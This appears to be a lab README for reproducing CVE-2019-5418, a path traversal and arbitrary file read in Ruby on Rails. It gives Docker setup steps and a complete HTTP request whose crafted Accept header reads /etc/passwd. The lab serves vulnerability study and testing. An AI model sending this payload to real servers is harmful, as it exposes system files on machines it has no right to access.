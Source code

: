 # Ruby on Rails Path Traversal and Arbitrary File Read (CVE-2019-5418)

[中文版本(Chinese version)](README.zh-cn.md)

Ruby on Rails is a web application framework that allows developers to build web applications quickly and easily.

There is a local file inclusion vulnerability in Ruby on Rails action view <5.2.2.1, <5.1.6.2, <5.0.7.2, <4.2.11.1 and v3. 

When using `render file` in a controller to render views outside the application, Rails determines the file location based on the user-supplied Accept header. By sending an Accept header with the value `Accept: ../../../../../../../../etc/passwd{{`, attackers can exploit a path traversal vulnerability to read arbitrary files.

References:

- https://groups.google.com/forum/#!topic/rubyonrails-security/pFRKI96Sm8Q
- https://github.com/mpgn/CVE-2019-5418
- https://xz.aliyun.com/t/4448

## Environment Setup

Execute the following command to compile and start Ruby on Rails 5.2.2:

```
docker compose build
docker compose up -d
```

After the server starts, visit `http://your-ip:3000` to see the Ruby on Rails welcome page.

## Vulnerability Reproduction

Visit `http://your-ip:3000/robots` to see that the normal robots.txt file is being read.

To exploit the vulnerability, send the following request to read `/etc/passwd`:

```
GET /robots HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: ../../../../../../../../etc/passwd{{
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

Successfully read the file:

![](1.png)
